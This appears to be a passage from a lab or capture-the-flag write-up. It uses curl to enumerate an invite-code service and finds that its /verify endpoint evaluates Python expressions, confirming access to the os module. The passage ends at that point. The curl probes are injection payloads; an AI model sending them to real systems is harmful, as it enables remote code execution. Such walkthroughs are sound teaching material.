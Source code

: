 ```
kali@kali:~$ curl http://192.168.120.36:50000/generate
{'email@domain'}

kali@kali:~$ curl http://192.168.120.36:50000/verify
{'code'}
```

The application running on port `18000` requires an invite code to allow registration of an account.

To generate an invite code, we need to send a `POST /generate` request to the application running on port `50000`.
 From the response earlier, we know that we need to include an email, so let’s try it out.

```
kali@kali:~$ curl -X POST --data "email=test@testing" http://192.168.120.36:50000/generate
5a81d05b8969fd1f156969da357bcd7f9bf0430c90035f017c88f9b5249b3e9e
```

With this invite code, we can now register to the main application.
 However, this seems to be a dead end, since there are no additional  options to manipulate the application after we finally login.

If we continue our enumeration on port `50000`, we can see that the `verify` endpoint has an odd behavior:

```
kali@kali:~$ curl -X POST --data "code=code" http://192.168.120.36:50000/verify
code
kali@kali:~$ curl -X POST --data "code=5a81d05b8969fd1f156969da357bcd7f9bf0430c90035f017c88f9b5249b3e9e" http://192.168.120.36:50000/verify 
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>
kali@kali:~$  curl -X POST --data "code=2+2" http://192.168.120.36:50000/verify
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>
kali@kali:~$ curl -X POST --data "code=2*2" http://192.168.120.36:50000/verify
4
```

## Exploitation

The verify option doesn’t actually “verify” the code. However, some  evaluation is in place as we can actually get a result with the  expression `2*2`.
 Since we identified this server as `Python/3.6.8` with **nmap**, we can poke to see if we can use the `os` module:

```
kali@kali:~$ curl -X POST --data "code=os" http://192.168.120.36:50000/verify
<module 'os' from '/usr/lib64/python3.6/os.py'>
```
